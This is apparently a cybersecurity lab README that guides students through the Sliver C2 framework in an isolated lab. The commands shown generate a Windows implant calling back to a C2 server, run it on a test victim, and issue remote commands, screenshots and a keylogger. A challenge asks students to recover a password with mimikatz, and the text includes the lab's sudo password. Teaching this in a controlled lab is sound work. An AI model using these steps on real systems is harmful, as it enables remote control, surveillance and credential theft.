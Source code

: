 > **Disclaimer:** The purpose of the lab environment is solely for educational and research purposes within the context of authorized and supervised activities. This lab environment is established to facilitate learning, analysis, and understanding of malware and related cybersecurity concepts. The malware lab environment is equipped with security measures to prevent unauthorized access and the spread of malware. However, it is essential to exercise caution and follow established protocols to minimize the risk of accidental exposure, infection, or unintended distribution of malware.

# Sliver C2 Botnet Instructions
Sliver is an open-source command and control (C2) botnet framework designed for educational purposes. The framework consists of a main server component that allows the deployment and management of botnet infrastructure. The server facilitates communication with the botnets.

C2 infrastructure operates by establishing a connection from the victim's machine back to the controller using outbound communication through well-known ports, such as HTTP. Typically, firewalls block incoming communication, but outbound communication through HTTP is commonly allowed. C2 botnet infrastructure exploits this by having the Sliver server listen for incoming communication from the botnet victims.

When a victim's machine is compromised and becomes part of the botnet, it runs with user privileges. This allows the controller to issue various commands to the botnet, essentially giving the controller control over the actions the victim machine performs. Consequently, the controller can carry out malicious activities using the compromised machines.

Please note that in your lab environment, all protection measures are disabled. However, in a real-world scenario, botnets can be thwarted by using up-to-date anti-malware software to prevent the initial implant from executing. If the initial infection occurs, it becomes more challenging to detect and stop the botnet's C2 communication, as the botnet attempts to camouflage itself as regular network traffic.

It is crucial to conduct these experiments and study the botnet framework within a controlled and strictly educational environment. The knowledge gained can contribute to understanding botnet behaviors, detecting and mitigating potential threats, and reinforcing cybersecurity practices.

## Accessing your Servers
You have 2 servers in your lab:
* **sliver-server**: Ubuntu server with the role of command and control of the botnet.
* **sliver-victim**: A test victim server used for installing implants.

> **Information:** When connecting to servers, it may be best to open this in an incognito browser to avoid caching the credentials used to connect. Only connect to one of the servers at a time, and then, only in incognito mode.

![image](https://user-images.githubusercontent.com/50633591/234986130-619d61f1-1a5b-47e7-9efa-555311ccb725.png)

### Start and Run Sliver
If promted for the sudo password, enter in `Let's workout!`
```
sudo systemctl start sliver
sudo sliver
```
You should then see a prompt similar to the one below:
![image](https://github.com/emerginganalytics/cyberarena/assets/50633591/4e87efc9-669f-4d72-b099-308bf03cd49b)

### Generating the Implant
Run the following command to generate the botnet malware. This will take a few minutes and when it completes a new executable with an arbitrary name will be saved in the student directory indicated.
```
generate --mtls 10.1.1.10 --os windows --arch amd64 --format exe
```
When you create your implants, move them to the `/srv/sliver` folder on the Sliver server and change the permissions to allow execution in the commands below. Make sure you exist the sliver prompt by typing in `exit`.
```
cp ./<RANDOM_NAME>.exe /srv/sliver/
sudo chmod 777 /srv/sliver/<RANDOM_NAME>.exe
```
The `cp` command means copy and it copies the executable you just created to a directory /srv/sliver. For the nerds out there, a SAMBA server is running on the Ubuntu system that allows Windows systems to navigate to the executable using network shares.

Now you'll want to start the Botnet server so it will listen for the victim to communicate back to it. Run the following:
```
sudo sliver
sliver > mtls
```
Sliver is now waiting for clients to communicate back with it.

### Open your Victim Machine
Then, the malware can be accessed by your Windows server, sliver-victim, by opening a file explorer and navigating to `\\10.1.1.10\sliver`

Double click to run the executable. Nothing will happen, but the C2 backchannel communication will be established.

### Use Botnet Server
Go to the sliver-server and you should see a line like this:
```
[*] Session 40ecf1dd ...
```
This lets you know that a C2 channel is open to the victim. You can use this channel by typing:
```
use 1 (replace '1' with the first character of your session ID)
```
You can also list the sessions by typing `sessions` and find the session ID of the victim PC.

You can run commands similar to the following:
```
sliver (RANDOM_NAME) > info             # This will show you information about the remote PC
sliver (RANDOM_NAME) > execute calc     # Open the calculator application on the desktop
sliver (RANDOM_NAME) > execute notepad  # Open the notepad application on the desktop
```
Some other interesting commands:
```
sliver (RANDOM_NAME) > cat /users/cyberarena/sample.txt   # dumps the contents of a text file
sliver (RANDOM_NAME) > screenshot                         # Generate a current screenshot. You can move this to the /srv/sliver directory to view it
```

### Sliver Armory
The Sliver armory 
```
sudo sliver                               # If you're not already in the console.
sliver > armory install raw-keylogger     # Install a keylogger extension
sliver > user 1                           # Replace with the session ID
sliver (RANDOM_NAME) > raw-keylogger 1    # Starts the remote keylogger. You can go to the victim machine and type into a notepad.
sliver (RANDOM_NAME) > raw-keylogger 2    # Captures the keylogger output.
```
> **Challenge:** There's a secret password on the victim. See if you can use mimikatz through the Armory to recover the password.

### Sliver Network Communication Monitoring
You can observe the network traffic used by Sliver through the Wireshark application on the Windows victim desktop. Double click on Wireshark and include the filter `host 10.1.1.20` similar to the screenshot below, but make sure to use the IP address 10.1.1.20.
![image](https://github.com/emerginganalytics/cyberarena/assets/50633591/88443e75-ad85-402d-9bf3-19df26b92fe0)

You will start to see traffic coming across periodically. Here, you can observe the protocol used by Sliver.
